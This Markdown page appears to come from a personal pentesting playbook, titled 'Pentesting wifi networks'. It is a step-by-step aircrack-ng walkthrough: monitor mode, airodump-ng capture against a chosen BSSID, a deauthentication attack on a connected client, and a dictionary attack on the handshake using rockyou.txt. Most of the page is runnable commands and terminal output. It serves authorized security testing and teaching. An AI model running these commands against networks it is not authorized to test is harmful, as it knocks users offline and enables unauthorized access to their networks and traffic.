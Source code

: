 ```yaml
---
slug: /playbooks/wifi
pagination_next: null
pagination_prev: null
---
```

# Pentesting wifi networks

Put your wifi interface in monitor mode to capture not only the WiFi traffic routed to the device, but all the traffic that is transmitted over the air.

## Enable monitor mode

1. Check if you have processes that will interfere with monitor mode:

```bash
└─$ sudo airmon-ng check                                                    
[sudo] password for gal: 

Found 4 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    817 avahi-daemon
    839 avahi-daemon
    891 NetworkManager
    963 wpa_supplicant
```

2. Kill them

```bash
┌──(gal㉿gal)-[~/workspace/gal/docs]
└─$ sudo airmon-ng check kill

Killing these processes:

    PID Name
    963 wpa_supplicant
```

3. Start monitor mode

```bash
└─$ sudo airmon-ng start wlan0  


PHY     Interface       Driver          Chipset

phy0    wlan0           iwlwifi         Intel Corporation Alder Lake-P PCH CNVi WiFi (rev 01)
                (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
                (mac80211 station mode vif disabled for [phy0]wlan0)
```

Now `wlan0` might change to `wlan0mon`

## Capture the traffic

1. Start checking what's around:

```bash
sudo airodump-ng wlan0mon
```

2. Once you have found a target, specify the channel and the bssid:

```bash
sudo airodump-ng --bssid 66:8B:92:F9:A2:9A  -w /tmp/guifiwc wlan0mon -c 11
```

This will store the traffic in the specified files with `-w`. Once you find an station connected to the bssid, you can start a `de-auth` attack.

## Deauth attack

The deauth attack will send packets to the WiFi client to force a de-authentication and a later authentication within the network. This will produce a bunch of auth messages signed with the hash of the WiFi password, which later we'll try to bruteforce with a dictionary attack.

```bash
sudo aireplay-ng -0 2 -c FA:50:A4:49:2F:AA -a 66:8B:92:F9:A2:9A wlan0mon
```

`-0` means deauth and `2` is the number of deauth packets to send
`-c` is the client MAC address
`-a` is the station BSSID.

Once this is done successfully, `airodump` will show a bunch of received data.

## Crack the password

Now pass the capture to `aircrack-ng` to bruteforce the password using a dictionary:

```bash
aircrack-ng -a2 -b 66:8B:92:F9:A2:9A -w /usr/share/wordlists/rockyou.txt /tmp/guifiwc-02.cap
```